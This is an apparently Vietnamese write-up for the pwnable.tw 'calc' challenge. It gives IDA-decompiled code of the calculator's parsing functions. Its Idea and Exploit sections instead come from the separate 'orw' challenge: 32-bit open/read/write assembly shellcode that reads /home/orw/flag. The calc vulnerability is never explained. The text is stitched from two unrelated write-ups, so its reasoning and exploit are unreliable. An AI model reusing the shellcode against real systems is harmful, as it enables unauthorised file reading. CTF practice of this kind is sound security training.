

# pwnable.tw - calc

Have you ever use Microsoft calculator?

`nc chall.pwnable.tw 10100`

# 1) Analysis and find Bug

Đầu tiên ta kiếm tra các secure flag và xem thông tin cơ bản của file.



Ta tiến hành đọc và phân tích mã nguồn chương trình bằng IDA để tìm hướng khai thác.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ssignal(14, timeout);
  alarm(60);
  puts("=== Welcome to SECPROG calculator ===");
  fflush(stdout);
  calc();
  return puts("Merry Christmas!");
}
```

Hàm main của chương trình thiết lập timeout - khi quá 60s nếu không có tác động input đầu vào nào chương trình sẽ tự động ngắt kết nối. Sau đó là gọi tới hàm `calc()`.

```c
unsigned int calc()
{
  int v1[101]; // [esp+18h] [ebp-5A0h] BYREF
  char s[1024]; // [esp+1ACh] [ebp-40Ch] BYREF
  
  // canary
  unsigned int v3; // [esp+5ACh] [ebp-Ch]
  v3 = __readgsdword(0x14u);
  
  while ( 1 )
  {
    bzero(s, 0x400u);
    if ( !get_expr(s, 1024) )
      break;
    init_pool(v1);
    if ( parse_expr(s, v1) )
    {
      printf("%d\n", v1[v1[0]]);
      fflush(stdout);
    }
  }
  return __readgsdword(0x14u) ^ v3;
}
```

Khai báo mảng số nguyên `v1[101]` có địa chỉ `[ebp-5A0h]`; mảng kí tự `s[1024]` có địa chỉ tại `[ebp-40Ch]`; v3 là `canary`. Hàm `bzero()` là hàm của thư viện, nó dùng để `NULL` 0x400 kí tự của chuỗi `s`. Sau đó từ hàm `calc()` gọi tới ba hàm khác là `get_expr()`, `init_pool` và `parse_expr`.  

```c
int __cdecl get_expr(int a1, int a2)
{
  int v2; // eax
  char v4; // [esp+1Bh] [ebp-Dh] BYREF
  
  int v5; // [esp+1Ch] [ebp-Ch]
  v5 = 0;
  
  while ( v5 < a2 && read(0, &v4, 1) != -1 && v4 != 10 ) // đọc input từng byte một kiểm tra nếu số kí tự nhập vào lớn hớn 1024 hoặc kí tự là newline thì dừng while.
  {
    if ( v4 == 43 || v4 == 45 || v4 == 42 || v4 == 47 || v4 == 37 || v4 > 47 && v4 <= 57 )
    // v4 == '+' || v4 == '-' || v4 == '*' || v4 == '/' || v4 == '%' || v4 > '/' && v4 <= '9'  
    {
      v2 = v5++;
      *(_BYTE *)(a1 + v2) = v4;
    }
  }
  *(_BYTE *)(v5 + a1) = 0;
  return v5;
}
```

Hàm `get_expr()` được gọi từ hàm `calc()` với hai đối số là `int a1` được truyền chuỗi s từ hàm `calc()` và đối số thứ hai là `int a2` là số kí tự của chuỗi s - 1024. Hàm `get_expr()` đọc input từng byte một và kiếm tra xem kí tự đó có thỏa mãn là các kí tự (+, -, *, /, %, 0, 1, 2, 3, 4, 5, 6, 7, 8, 9) rồi lưu input vào chuỗi s, sau đó gán kí tự cuối cùng là `NULL`. Giá trị trả về của hàm là v5 là độ dài của chuỗi `s`.

```c
_DWORD *__cdecl init_pool(_DWORD *a1)
{
  _DWORD *result; // eax
  int i; // [esp+Ch] [ebp-4h]

  result = a1;
  *a1 = 0;
  for ( i = 0; i <= 99; ++i )
  {
    result = a1;
    a1[i + 1] = 0;
  }
  return result;
}
```

...

```c
int __cdecl parse_expr(int a1, _DWORD *a2)
{
  int v3; // eax
  int v4; // [esp+20h] [ebp-88h]
  int i; // [esp+24h] [ebp-84h]
  int v6; // [esp+28h] [ebp-80h]
  int v7; // [esp+2Ch] [ebp-7Ch]
  char *s1; // [esp+30h] [ebp-78h]
  int v9; // [esp+34h] [ebp-74h]
  char s[100]; // [esp+38h] [ebp-70h] BYREF
  unsigned int v11; // [esp+9Ch] [ebp-Ch]

  v11 = __readgsdword(0x14u);
  v4 = a1;
  v6 = 0;
  bzero(s, 0x64u);
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)(*(char *)(i + a1) - 48) > 9 )
    {
      v7 = i + a1 - v4;
      s1 = (char *)malloc(v7 + 1);
      memcpy(s1, v4, v7);
      s1[v7] = 0;
      if ( !strcmp(s1, "0") )
      {
        puts("prevent division by zero");
        fflush(stdout);
        return 0;
      }
      v9 = atoi(s1);
      if ( v9 > 0 )
      {
        v3 = (*a2)++;
        a2[v3 + 1] = v9;
      }
      if ( *(_BYTE *)(i + a1) && (unsigned int)(*(char *)(i + 1 + a1) - 48) > 9 )
      {
        puts("expression error!");
        fflush(stdout);
        return 0;
      }
      v4 = i + 1 + a1;
      if ( s[v6] )
      {
        switch ( *(_BYTE *)(i + a1) )
        {
          case '%':
          case '*':
          case '/':
            if ( s[v6] != 43 && s[v6] != 45 )
              goto LABEL_14;
            s[++v6] = *(_BYTE *)(i + a1);
            break;
          case '+':
          case '-':
LABEL_14:
            eval(a2, s[v6]);
            s[v6] = *(_BYTE *)(i + a1);
            break;
          default:
            eval(a2, s[v6--]);
            break;
        }
      }
      else
      {
        s[v6] = *(_BYTE *)(i + a1);
      }
      if ( !*(_BYTE *)(i + a1) )
        break;
    }
  }
  while ( v6 >= 0 )
    eval(a2, s[v6--]);
  return 1;
}
```

# 2) Idea

Ở phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write`, khi chúng ta nhập input là shellcode thì chương trình sẽ thực hiện các công việc mà shellcode đó yêu cầu. Ở đây ta sẽ dùng `syscall_open` để mở file flag ở `/home/orw/flag` và dùng `syscall_read`, `syscall_write` để đọc và ghi flag ra `terminal`, còn về shellcode 32bit thì ta phải tự viết vì đây không phải là shellcode execute nên không phổ biến để chọn.

# 3) Exploit

Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành mã shellcode. Tôi dùng tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) để làm điều đó.


# 4) Source code and get Flag

Tiến hành viết file [exploit.py](exploit.py) và khai thác:


------------------------------------------------------
